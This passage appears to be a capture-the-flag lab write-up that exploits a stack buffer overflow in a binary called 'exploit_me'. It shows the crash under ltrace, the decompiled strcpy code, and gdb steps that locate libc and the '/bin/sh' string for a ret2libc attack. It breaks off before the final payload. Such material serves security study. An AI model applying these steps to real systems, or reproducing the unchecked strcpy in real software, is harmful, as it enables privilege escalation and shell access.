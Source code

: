 ```sh
zaz@BornToSecHackMe:~$ ltrace ./exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
__libc_start_main(... <unfinished ...>)
strcpy(0xbffff5e0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)
puts(...)
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Cool! Let's break it quickly.

```sh
$ scp zaz@192.168.56.103:/home/zaz/exploit_me .
```

### Disassembly of `exploit_me`

```c
int main(int argc, char **argv)
{
  char buffer[140];
  
  if (argc > 1) {
    strcpy(buffer, argv[1]);
    puts(buffer);
  }
  return argc < 2;
}
```

Nothing else is in the code, so we can do a `ret2libc` attack.

### `ret2libc` attack

```sh
$ gdb ./exploit_me
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me 

Breakpoint 1, 0x080483f7 in main ()
(gdb) info proc map
process 2507
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found
```
